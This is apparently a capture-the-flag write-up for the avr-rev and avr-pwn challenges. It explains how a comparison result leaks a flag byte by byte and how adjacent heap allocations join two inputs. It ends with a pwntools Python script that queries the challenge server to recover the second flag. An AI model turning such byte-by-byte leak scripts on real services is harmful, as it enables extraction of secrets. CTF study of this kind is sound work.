 For most objects, the number is 0. For `{xx:xx}`, the number is 1. For `{number:xx}`, the number is 2. For `{1337:string}`, the number is various.

In this case, the string is compared with flag, where flag is given in sub_884, in some strange way. When a character is different from flag, the result will be `(string[i]-flag[i])%256`. Thus we can find the flag byte by byte.

However, the string is at most 32 bytes, thus it only contains the first flag (for avr-rev).

### Bonus

After the CTF, we find the solution to avr-pwn. Send the following two strings, and they are connected into a big string. (`0123456789` is just a various padding)

```
{1:1,1337:"0123456789..."}
{1337:"...(32 bytes)"}
```

This is because the program malloc some new memory each time, and they are adjacent. Here's the script to find guess each byte.

```python
from pwn import *

r=remote('avr-01.play.midnightsunctf.se',1337)

def getnxt(s):
	t=s[:32]
	s=s[32:]
	v=[]
	while len(s):
		v.append(s[:22])
		s=s[22:]
	CHR='*'
	if len(v[-1])==22:
		v.append(CHR)
	else:
		v[-1]+=CHR
	for i in range(len(v)-1,-1,-1):
		r.recvuntil('\n')
		r.send('{'+'1:1,'*(i+1)+'1:"'+' '*10+v[i]+'"}\n')
		r.recvuntil('"}')
		r.recvuntil('\n')
	r.recvuntil('\n')
	r.send('{1337:"'+t+'"}\n')
	r.recvuntil('"}')
	r.recvuntil('\n')
	res=r.recvuntil('\n')
	return chr((ord(CHR)-int(res))%256)

cur='''First: midnight{only31?} But to get the second flag y'''
print(len(cur))
while True:
	cur+=getnxt(cur)
	print(cur)
```
